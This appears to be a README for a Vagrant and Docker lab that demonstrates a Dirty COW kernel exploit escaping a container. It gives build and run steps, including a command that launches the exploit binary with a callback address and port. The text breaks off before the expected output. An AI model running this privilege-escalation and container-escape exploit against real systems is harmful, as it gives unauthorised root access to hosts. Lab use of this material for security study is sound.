 # dirtycow-docker-vdso_2

This directory contains the necessary code to get the vdso based Dirty Cow POC working inside a docker container. 
All the really exciting stuff was done by Scumjr, see his POC repo over at https://github.com/scumjr/dirtycow-vdso.
This exploit is from  https://github.com/gebl/dirtycow-docker-vdso.git'}

This exploit is similar that dirtycow-docker-vdso_1 with exception no seperate user is created 

To execute:
	vagrant up
	vagrant putty

Once inside the VM run to launch the Docker Container:
	sudo docker-compose run dirtycow /bin/bash" 

Inside the Docker container run:
    cd /dirtycow-vdso
     make
     ./0xdeadbeef 172.18.0.2:1234" 
      

Wait a few minutes for the exploit to launch 

Show the breakout of the container by running ifconfig
	
Succesful breakout should list

	
  